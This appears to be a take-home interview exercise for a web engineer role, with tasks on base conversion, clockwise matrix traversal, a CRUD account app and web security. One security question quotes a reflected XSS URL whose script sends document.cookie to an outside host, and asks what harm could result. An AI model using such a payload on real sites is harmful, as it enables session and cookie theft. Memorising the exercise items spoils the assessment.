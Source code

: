 # Epic Games, Web Engineer Exercise

Thank you for taking the time to complete the exercise below. Please return your response within one week to the link provided by your recruiter.

Instructions/Notes:

-   State your assumptions when you solve each problem.
-   All code is run through a test suite to test its production quality; these tests affect whether or not our interview process continues, so please take them seriously.
-   Please try to give an approximate time that it took you to solve each portion of the exercise.
-   Be aware that there may be multiple ways to solve some of the questions.
-   We&#39;d like to request that when responding, you either zip your files into a Zip File, or upload your response to Google Drive or Dropbox with a link. This will keep responses private and easy to access for us. Thank you!
-   Use the latest version of Node unless otherwise specified
-   Install with yarn ([https://yarnpkg.com/en/](https://yarnpkg.com/en/)) by running &#39;yarn&#39; in the root directory. Then start the dev server by running &#39;yarn start&#39;. Start the service by running &#39;yarn start-service&#39; in a separate console.
-   The app should start up without issues and run on [http://localhost:3000/](http://localhost:3000/)
-   Feel free to extend and enhance the test application as you would for a production-ready app.
-   Writing tests for your code is recommended.
-   **The source code for the web test can be downloaded at the following URL. Please let us know if you have any trouble downloading or opening this file:** [**https://cdn1.unrealengine.com/Public/epic-web-test.zip**](https://cdn1.unrealengine.com/Public/epic-web-test.zip)

Questions:

**1)** In the given starter page (/epic-web-test/src/question1/Question1.js), implement the function that displays the string form of a value in a particular number base.

function integerToString(value, numberBase)

**Do\*\*** not\*\* use built-in language features to accomplish the task.

Do not trivialize the task by using pre-existing JS functions to solve the crux of the question, for example, Number.toString(numberBase).

The page should render without errors here

http://localhost:3000/question-1

**2)** In the given starter page (/epic-web-test/src/question2/Question2.js), write a function that given a matrix of integers, builds a string with the entries of that matrix appended in clockwise order.

function clockwiseMatrix(matrixString)

The function should accept a string representing the matrix as shown below: brackets around each row of comma-separated integers, and a newline between each row. The function should return the solution string of comma-separated integers. Note that this field takes human input, so parsing and validation is important

Example Input:

| Input                                                                   | Output                                                                |
| ----------------------------------------------------------------------- | --------------------------------------------------------------------- |
| [2, 3, 4, 8][5, 7, 9, 12][1, 0, 6, 10]                                  | 2, 3, 4, 8, 12, 10, 6, 0, 1, 5, 7, 9                                  |
| [1, 2, 3][4, 5, 6][7, 8 , 9][10, 11 , 12]                               | 1, 2, 3, 6, 9, 12, 11, 10, 7, 4, 5, 8                                 |
| [1, 2][3, 4]                                                            | 1, 2, 4, 3                                                            |
| [1, 2, 3][4, 5, 6][7, 8 , 9]                                            | 1, 2, 3, 6, 9, 8, 7, 4, 5                                             |
| [1, 2, 3, 4, 5][6, 7, 8, 9, 10][11, 12, 13, 14, 15][16, 17, 18, 19, 20] | 1, 2, 3, 4, 5, 10, 15, 20, 19, 18, 17, 16, 11, 6, 7, 8, 9, 14, 13, 12 |

a. Given your solution, how would you verify the correctness of your answers?

**3)** Create a simple account management service and page(s) thatallows an internal customer service team to perform CRUD operations on users. We have provided a sample in-memory service that you can either use or replace. An account consists of a person&#39;s name, date of birth, and email. The application should be intuitive and user friendly. Please explain your design choices. Feel free to use any external frameworks that you feel will help (flux, axios, etc).

**Note:** The mock service can be started with &#39;yarn start-service&#39;

Once you have created a basic CRUD front-end, enhance your application with one or more of the following features

-   Improved User Experience and front-end design. Create a user experience that improves workflow in some way. Polish the UI for your account application to production standards.
    -   What are some of the design decisions that you made?
-   Full service implementation. Replace the in-memory service with a real back end (mongo/sql/etc). Feel free to use any javascript frameworks/libraries that help you accomplish this goal. Also, extend the account such that each user has a &quot;wallet&quot; with a balance, with the ability to add or remove currency from the wallet through an API.
    -   What considerations did you make for adding this additional data?
    -   How would you scale this system to millions of accounts?
-   Add searching/filtering functionality to the accounts. Give the user the ability to search for a specific account. Bonus points if you use a single search box (omni-search) that searches the fields based on user input.
    -   How would this search scale if there were a million accounts?
    -   What considerations did you make for performance?
-   Implement performance instrumentation for your application. Instrument your application in such a way that you get detailed insight into how it performs.
    -   Which parts of the app did you instrument and why did you consider those areas?
    -   Describe how the instrumentation you added could be used by QA to identify action items to improve the application&#39;s performance (give examples where possible)

**4)** What harm could result from the following?

http://www.example.com/search?q=\<script\>object.src="http://otherexample.com/code?data="+document.cookie\</script>

**5)** Explain what security measures need to be taken into consideration for web applications.

**6)** Please provide us with a link(s) to your portfolio and/or some code samples of your work.
